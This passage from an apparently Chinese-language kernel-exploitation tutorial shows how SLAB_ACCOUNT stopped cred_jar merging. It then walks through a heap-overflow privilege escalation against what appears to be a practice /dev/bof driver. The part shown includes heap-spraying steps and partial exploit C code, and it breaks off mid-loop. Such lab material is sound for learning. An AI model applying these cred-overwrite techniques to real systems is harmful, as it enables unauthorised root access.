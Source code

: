 但是此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred_jar 中的 object，这是因为 cred_jar 在创建时设置了 SLAB_ACCOUNT 标记，在 CONFIG_MEMCG_KMEM=y 时（默认开启）cred_jar 不会再与相同大小的 kmalloc-192 进行合并。  
```
// kernel version == 4.4.72
void __init cred_init(void)
{
/* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar",sizeof(struct cred),
0, SLAB_HWCACHE_ALIGN|SLAB_PANIC,NULL);
}
// kernel version == 4.5
void __init cred_init(void)
{
/* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar",sizeof(struct cred),0,
            SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT,NULL);
}
```  
# heap overflow  
  
溢出修改 cred ，和前面 UAF 修改 cred 一样，在新版本失效。多核堆块难免会乱序，溢出之前记得多申请一些0xc0大小的obj，因为我们 freelist 中存在很多之前使用又被释放的obj导致的obj乱序。我们需要一个排列整齐的内存块用于修改。  
## 利用思路  
1. 1. 多申请几个0xa8大小的内存块，将原有混乱的freelist 变为地址连续的 freelist。  
  
1. 2. 利用堆溢出，修改被重新申请作为cred的ptr[5]凭证区为0。  
  
## exp  
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/wait.h>

struct param {
size_t len;// 内容长度
char*buf;// 用户态缓冲区地址
longlong idx;// 表示 ptr 数组的 索引
};

constint BOF_NUM =10;

intmain(void){
int bof_fd = open("/dev/bof", O_RDWR);
if(bof_fd ==-1){
puts("[-] Failed to open bof device.");
exit(-1);
}

struct param p ={0xa8,malloc(0xa8),0};

// 让驱动分配 0x40 个 0xa8  的内存块
for(int i =0; i <0x40; i++){
        ioctl(bof_fd,5,&p);// malloc
}
puts("[*] clear heap done");

// 让驱动分配 10 个 0xa8  的内存块
for(p.idx =0; p.idx < BOF_NUM; p.idx++){
```